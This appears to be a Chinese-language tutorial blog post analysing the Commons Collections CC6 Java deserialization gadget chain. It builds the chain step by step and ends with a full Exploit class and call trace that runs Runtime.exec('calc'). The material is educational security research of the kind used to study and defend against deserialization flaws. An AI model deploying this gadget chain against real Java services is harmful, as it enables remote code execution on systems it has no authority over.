

0x01 前言
之前看了CC1链（TransformedMap），不过其实还有一条链子是通过LazyMap配合动态代理来进行反序列化的。
那么CC1是有jdk限制的，在jdk8u71里是被修复了，修改了AnnotationInvocationHandler的readObject方法，而CC6可以不受 jdk 版本制约。
CC6 的前半条链与CC1（LazyMap）是一样的，也就是到 LazyMap。
0x02 环境搭建
- JDK 8u71
- Comoons-Collections 3.2.1
- openJDK 8u71
0x03 CC6攻击链分析
寻找尾部危险方法
CC6与CC1CC1（LazyMap）前半是一样的，所以直接快进到LazyMap，先写一遍前面的Exp，然后接着继续找。
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<String, Object> map = new HashMap();
map.put("a", "b");
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
lazyMap.get("");
}寻找反序列化链
LazyMap下一步是TiedMapEntry 类中的 getValue() 方法调用了 LazyMap 的 get() 方法，然后同时TiedMapEntry 类的hashCode()方法又调用了该类的getValue() 方法，下来简单练习一下
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<String, Object> map = new HashMap();
map.put("a", "b");
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
// lazyMap.get("");
TiedMapEntry entry = new TiedMapEntry(lazyMap, "key");
entry.getValue();
}下来的链子可以参考之前的URLDNS链，这里属于是不同类的同名函数调用
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<String, Object> map = new HashMap();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
// lazyMap.get("");
TiedMapEntry entry = new TiedMapEntry(lazyMap, "key");
HashMap hashMap = new HashMap();
hashMap.put(entry, "value");
serialize(hashMap);
// unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}反序列化入口-readObject()
那么这里的问题和当时URLDNS链一样，只进行了Serialize就已经弹出计算器了，因为在Serialize时就会调用put方法从而调用hash
我们可以在LazyMap上修改，在他赋值的时候给个new ConstantTransformer(1)，那么在执行put方法结束后再把之前的chainedTransformer，通过反射的方法给他。
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<String, Object> map = new HashMap();
Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
// lazyMap.get("");
TiedMapEntry entry = new TiedMapEntry(lazyMap, "key");
HashMap hashMap = new HashMap();
hashMap.put(entry, "value");
Class lazyClass = LazyMap.class;
Field factoryField = lazyClass.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(lazyMap, chainedTransformer);
serialize(hashMap);不过这里我们反序列化还是没有成功，我们调试来看看

这里put将key设为了aaa,执行之后的反序列化也就没办法继续执行了。所以我们需要在反序列化执行一句lazyMap.remove("aaa");才可以正常进入transform方法
0x04 CC6 Exploit
package com.hsad;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
public class Exploit {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> map = new HashMap<>();
Map<Object, Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
// lazyMap.get("");
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry, "bbb");
map.remove("aaa");
Class lazyClass = LazyMap.class;
Field factoryField = lazyClass.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(lazyMap, chainedTransformer);
// serialize(hashMap);
unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}
}完整链子：
xxx.readObject()
HashMap.put()
HashMap.hash()
TiedMapEntry.hashCode()
TiedMapEntry.getValue()
LazyMap.get()
ChainedTransformer.transform()
InvokerTransformer.transform()
Runtime.exec()